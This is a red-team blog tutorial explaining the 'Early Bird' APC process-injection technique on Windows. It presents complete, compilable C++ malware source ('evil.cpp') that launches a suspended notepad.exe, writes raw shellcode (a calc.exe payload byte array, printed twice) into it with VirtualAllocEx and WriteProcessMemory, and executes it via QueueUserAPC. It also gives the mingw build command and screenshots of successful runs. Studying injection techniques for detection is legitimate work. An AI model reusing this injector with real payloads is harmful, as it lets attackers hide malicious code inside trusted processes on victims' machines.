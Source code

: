 ```yaml
---
title:  "APC injection technique. Simple C++ malware."
date:   2021-11-11 10:00:00 +0600
header:
  teaser: "/assets/images/21/2021-11-11_14-32.png"
categories: 
  - tutorial
tags:
  - APC injection
  - windows
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![APC injection](/assets/images/21/2021-11-11_14-32.png){:class="img-responsive"}

This post is a Proof of Concept and is for educational purposes only.   
Author takes no responsibility of any damage you cause.      

In [this](/tutorial/2021/09/18/malware-injection-1.html) post I wrote about classic code injection, and in [another](/tutorial/2021/09/20/malware-injection-2.html) post I wrote about classic DLL injection.     

Today I will discuss about a "Early Bird" APC injection technique. Today we're going to look at [QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) which takes advantage of the asynchronous procedure call to queue a specific thread.      

Each thread has its own APC queue. An application queues an APC to a thread by calling the QueueUserAPC function. The calling thread specifies the address of an APC function in the call to QueueUserAPC. The queuing of an APC is a request for the thread to call the APC function.    

High level overview of this technique is:       
Firstly, our malicious program creates a new legitimate process (in our case `notepad.exe`):       
![APC 1](/assets/images/21/apc-1.png){:class="img-responsive"}          

![APC injection 2](/assets/images/21/2021-11-11_15-09.png){:class="img-responsive"}

Whenever we see a call to `CreateProcess`, two important parameters we want to pay attention to are the first (executable to be invoked), and sixth (process creation flags). The creation flag is `CREATE_SUSPENDED`.        

Then, memory for payload is allocated in the newly created process's memory space:     
![APC 2](/assets/images/21/apc-2.png){:class="img-responsive"}         

![APC injection 3](/assets/images/21/2021-11-11_15-12.png){:class="img-responsive"}

As I wrote earlier in previous posts, there is a very important difference between `VirtualAlloc` and `VirtualAllocEx`. The former will allocate memory in the calling process, the latter will allocate memory in a remote process. So if we see malware call `VirtualAllocEx`, there more than likely will be some kind of cross process activity about to commence.

[APC](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) routine pointing to the shellcode is declared.    
Then payload is written to the allocated memory:
![APC 3](/assets/images/21/apc-3.png){:class="img-responsive"}         

APC is queued to the main thread which is currently in suspended state:     
![APC 4](/assets/images/21/apc-4.png){:class="img-responsive"}    

![APC injection 4](/assets/images/21/2021-11-11_15-13.png){:class="img-responsive"}

Finally, thread is resumed and our payload is executed:
![APC 5](/assets/images/21/apc-5.png){:class="img-responsive"}    

![APC injection 5](/assets/images/21/2021-11-11_15-14.png){:class="img-responsive"}

So, our full source code is (`evil.cpp`):      
```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main() {

  // Create a 64-bit process:
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  LPVOID my_payload_mem;
  SIZE_T my_payload_len = sizeof(my_payload);
  LPCWSTR cmd;
  HANDLE hProcess, hThread;
  NTSTATUS status;

  ZeroMemory(&si, sizeof(si));
  ZeroMemory(&pi, sizeof(pi));
  si.cb = sizeof(si);

  CreateProcessA(
    "C:\\Windows\\System32\\notepad.exe",
    NULL, NULL, NULL, false,
    CREATE_SUSPENDED, NULL, NULL, &si, &pi
  );
  WaitForSingleObject(pi.hProcess, 5000);
  hProcess = pi.hProcess;
  hThread = pi.hThread;

  // allocate a memory buffer for payload
  my_payload_mem = VirtualAllocEx(hProcess, NULL, my_payload_len,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // write payload to allocated buffer
  WriteProcessMemory(hProcess, my_payload_mem, my_payload, my_payload_len, NULL);

  // inject into the suspended thread.
  PTHREAD_START_ROUTINE apc_r = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apc_r, hThread, NULL);

  // resume to suspended thread
  ResumeThread(hThread);

  return 0;
}
```

As you can see for simplicity, we use 64-bit `calc.exe` as the payload. Without delving into the generation of the payload, we will simply insert payload into our code:
```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

Let's go to compile:
```bash
x86_64-w64-mingw32-gcc evil.cpp -o evil.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![APC injection 6](/assets/images/21/2021-11-11_15-18.png){:class="img-responsive"}

Let's go to launch a `evil.exe` on windows 7 x64:

![APC injection 7](/assets/images/21/2021-11-11_15-24.png){:class="img-responsive"}

If we check the newly started `notepad.exe` in the Process Hacker, we can confirm that the main thread is indeed suspended:     

![APC injection 8](/assets/images/21/2021-11-11_15-51.png){:class="img-responsive"}

> As you can see, `WaitForSingleObject` function second parameter is `30000` for demonstration, in real-world scenario it's not so big.        

Our `evil.exe` is also worked in `windows 10 x64`:     
![APC injection 9](/assets/images/21/2021-11-11_14-29.png){:class="img-responsive"}


[APC MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)         
[QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)          
[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WaitForSingleObject](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)        
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[ResumeThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread)     
[ZeroMemory](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366920(v=vs.85))            
[Source code in Github](https://github.com/cocomelonc/2021-11-11-malware-injection-3)         

In the future I will try to figure out more advanced code injection techniques.

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*
